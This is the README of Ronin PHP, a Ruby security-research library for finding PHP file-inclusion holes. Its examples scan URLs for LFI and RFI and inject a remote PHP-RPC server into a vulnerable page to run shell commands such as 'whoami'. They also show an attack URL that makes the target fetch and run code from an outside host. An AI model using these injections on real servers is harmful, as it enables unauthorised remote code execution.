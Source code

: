# Ronin PHP

* [Source](http://github.com/ronin-ruby/ronin-php)
* [Issues](http://github.com/ronin-ruby/ronin-php/issues)
* [Documentation](http://rubydoc.info/github/ronin-ruby/ronin-php/frames)
* [Mailing List](http://groups.google.com/group/ronin-ruby)
* irc.freenode.net #ronin

## Description

Ronin PHP is a Ruby library for Ronin that provides support for PHP
related security tasks.

Ronin is a Ruby platform for exploit development and security research.
Ronin allows for the rapid development and distribution of code, exploits
or payloads over many common Source-Code-Management (SCM) systems.

### Ruby

Ronin's Ruby environment allows security researchers to leverage Ruby with
ease. The Ruby environment contains a multitude of convenience methods
for working with data in Ruby, a Ruby Object Database, a customized Ruby
Console and an extendable command-line interface.

### Extend

Ronin's more specialized features are provided by additional Ronin
libraries, which users can choose to install. These libraries can allow
one to write and run Exploits and Payloads, scan for PHP vulnerabilities,
perform Google Dorks  or run 3rd party scanners.

### Publish

Ronin allows users to publish and share code, exploits, payloads or other
data via Overlays. Overlays are directories of code and data that can be
hosted on any SVN, Hg, Git or Rsync server. Ronin makes it easy to create,
install or update Overlays.

## Features

* Provides tests for Location File Inclusion (LFI) and Remote File
  Inclusion (RFI) that are built into the URI::HTTP class.
* Allows for effortless finger-printing of a web-server using LFI.
* Provides a PHP-RPC client and server that are designed to work in hostile
  environments.
* Provides an AJAX PHP-RPC Console.

## Synopsis

Start the Ronin console with Ronin PHP preloaded:

    $ ronin-php

## Examples

Test for Remote File Inclusion (RFI):

    require 'ronin/php/rfi'

    url = URI('http://www.example.com/page.php?lang=en')
    url.has_rfi?
    # => true

Get the first viable RFI vulnerability:

    url.first_rfi
    # => #<Ronin::PHP::RFI: ...>

Scan a URL for RFI vulnerabilities:

    url.rfi_scan
    # => [#<Ronin::PHP::RFI: ...>, ...]

Inject a PHP-RPC Server into a RFI vulnerable URL:

    require 'ronin/rpc/php'

    client = url.rfi.rpc
    client.exec('whoami')
    # => "www-data"

Get a direct URL to the AJAX interface of the PHP-RPC Server:

    client.url
    # => "http://www.example.com/page.php?en=http://ronin.rubyforge.org/static/ronin/php/rpc/server.min.php?"

Test for Local File Inclusion (LFI):

    require 'ronin/php/lfi'

    url = URI('http://www.example.com/site.php?page=home')
    url.has_lfi?
    # => true

Get the first viable LFI vulnerability:

    url.first_lfi
    # => #<Ronin::PHP::LFI: ...>

Scan a URL for LFI vulnerabilities:

    url.lfi_scan
    # => [#<Ronin::PHP::LFI: ...>, ...]

## Requirements

* [cssmin](http://rubygems.org/gems/cssmin) ~> 1.0.2
* [jsmin](http://rubygems.org/gems/jsmin) ~> 1.0.1
* [ronin-support](http://github.com/ronin-ruby/ronin-support) ~> 0.1.0
* [ronin](http://github.com/ronin-ruby/ronin) ~> 1.0.0
* [ronin-gen](http://github.com/ronin-ruby/ronin-gen) ~> 1.0.0
* [ronin-scanners](http://github.com/ronin-ruby/ronin-scanners) ~> 1.0.0
* [ronin-web](http://github.com/ronin-ruby/ronin-web) ~> 0.3.0
* [ronin-exploits](http://github.com/ronin-ruby/ronin-exploits) ~> 1.0.0

## Install

    $ sudo gem install ronin-php

## License

Ronin PHP - A Ruby library for Ronin that provides support for PHP
related security tasks.

Copyright (c) 2007-2010 Hal Brodigan (postmodern.mod3 at gmail.com)

This program is free software; you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation; either version 2 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program; if not, write to the Free Software
Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
